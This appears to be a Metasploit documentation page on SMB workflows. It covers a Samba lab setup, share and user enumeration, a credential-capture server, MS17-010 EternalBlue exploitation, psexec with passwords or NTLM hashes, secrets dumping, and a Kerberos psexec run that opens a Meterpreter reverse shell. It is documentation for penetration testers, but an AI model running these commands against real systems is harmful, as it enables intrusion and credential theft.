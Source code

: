 ## SMB Workflows

SMB (Server Message Blocks), is a way for sharing files across nodes on a network.

There are two main ports for SMB:

- 139/TCP - Initially Microsoft implemented SMB ontop of their existing NetBIOS network architecture, which allowed for Windows computers to communicate across the same network
- 445/TCP - Newer versions of SMB use this port, were NetBIOS is not used.

Other terminology to be aware of:
- SMB - Serer Message Blocks
- CIFS - Common Internet File System
- Samba - A free software re-implementation of SMB, which is frequently found on unix-like systems

Metasploit has support for multiple SMB modules, including:

- Version enumeration
- Verifying/bruteforcing credentials
- Capture modules
- Relay modules
- File transfer
- Exploit modules

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```msf
msf6 > search mysql
```

### Lab Environment

When testing in a lab environment - SMB can be used on a Window's host machine, or within Docker.

For instance running Samba on Ubuntu 16.04:

```bash
docker run -it --rm --publish 127.0.0.1:139:139 --publish 127.0.0.1:445:445 ubuntu:16.04 /bin/bash
mkdir -p /tmp/foo
apt update
apt install -y samba
```

Verifying version is as expected:
```
$ samba --version
Version 4.3.11-Ubuntu
```

Configuring the share:
```bash
cat << EOF >> /etc/samba/smb.conf
[foo_share]
    comment = Foo samba share
    path = /tmp/foo
    read only = no
    browsable = yes
EOF
```

Restart the service:

```
service smbd restart
```

### SMB Enumeration

Enumerate SMB version:

```
use auxiliary/scanner/smb/smb_version
run smb://10.10.10.161
```

Enumerate shares:

```
use auxiliary/scanner/smb/smb_enumshares
run smb://10.10.10.161
run smb://user:pass@10.10.10.161
run 'smb://domain;user with spaces:pass@192.168.123.4' SMB::AlwaysEncrypt=false SMB::ProtocolVersion=1
```

Enumerate shares and show all files recursively:

```
use auxiliary/scanner/smb/smb_enumshares
run 'smb://user:pass with a space@10.10.10.161' showfiles=true spidershares=true
```

Enumerate users:

```
use auxiliary/scanner/smb/smb_enumusers
run smb://user:p4$$w0rd@192.168.123.13
```

[Enumerate gpp files](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/smb/smb_enum_gpp.md) in a SMB share:

```
use auxiliary/scanner/smb/smb_enum_gpp
run smb://192.168.123.13/share_name verbose=true store=true
run smb://user:p4$$w0rd@192.168.123.13/share_name verbose=true store=true
```

### SMB Server

Create a mock SMB server which accepts credentials before returning `NT_STATUS_LOGON_FAILURE`. These hashes can then be cracked later:

```
use auxiliary/server/capture/smb
run
```

### SMB MS17-010

Metasploit has a module for MS17-010, dubbed Eternal Blue, which has the capability to target Windows 7, Windows 8.1, Windows 2012 R2, and Windows 10.

Checking for exploitability:

```
use auxiliary/scanner/smb/smb_ms17_010
check 10.10.10.23
check 10.10.10.0/24
check smb://user:pass@10.10.10.1/
check smb://domain;user:pass@10.10.10.1/
check cidr:/24:smb://user:pass@10.10.10.0 threads=32
```

As of 2021, Metasploit supports a single exploit module for which has the capability to target Windows 7, Windows 8.1, Windows 2012 R2, and Windows 10, full details within the [Metasploit Wrapup](https://www.rapid7.com/blog/post/2021/07/16/metasploit-wrap-up-121/):

```
use exploit/windows/smb/ms17_010_eternalblue
run 10.10.10.23 lhost=192.168.123.1
run 10.10.10.0/24 lhost=192.168.123.1 lport=5000
run smb://user:pass@10.10.10.1/ lhost=192.168.123.1
run smb://domain;user:pass@10.10.10.1/ lhost=192.168.123.1
```

### SMB psexec

Running psexec against a remote host with credentials:

```
use exploit/windows/smb/psexec
run smb://user:pass8@192.168.123.13 lhost=192.168.123.1 lport=5000
```

Running psexec with NTLM hashes:

```
use exploit/windows/smb/psexec
run smb://Administrator:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6@10.10.10.161 lhost=10.10.14.13 lport=5000
```

### SMB Dumping

Dumping secrets with credentials:

```
use auxiliary/gather/windows_secrets_dump
run smb://user:pass@192.168.123.6
```

Dumping secrets with NTLM hashes

```
use auxiliary/gather/windows_secrets_dump
run smb://Administrator:aad3b435b51404eeaad3b435b51404ee:15feae27e637cb98ffacdf0a840eeb4b@192.168.123.1
```

### SMB Files

Download a file:

```
use auxiliary/admin/smb/download_file
run smb://a:p4$$w0rd@192.168.123.13/my_share/helloworld.txt
```

Upload a file:

```
use auxiliary/admin/smb/upload_file
echo "my file" > local_file.txt
run smb://a:p4$$w0rd@192.168.123.13/my_share/remote_file.txt lpath=./local_file.txt
```

### Kerberos Authentication

Details on the Kerberos specific option names are documented in [[Kerberos Service Authentication|kerberos/service_authentication]]

Running psexec against a host:

```msf
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd smb::auth=kerberos domaincontrollerrhost=192.168.123.13 smb::rhostname=dc3.demo.local domain=demo.local

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.13:445 - Connecting to the server...
[*] 192.168.123.13:445 - Authenticating to 192.168.123.13:445|demo.local as user 'Administrator'...
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_474531.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_169149.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] 192.168.123.13:445 - Selecting PowerShell target
[*] 192.168.123.13:445 - Executing the payload...
[+] 192.168.123.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.123.13
[*] Meterpreter session 6 opened (192.168.123.1:4444 -> 192.168.123.13:49738) at 2023-01-18 12:09:13 +0000

meterpreter >
```
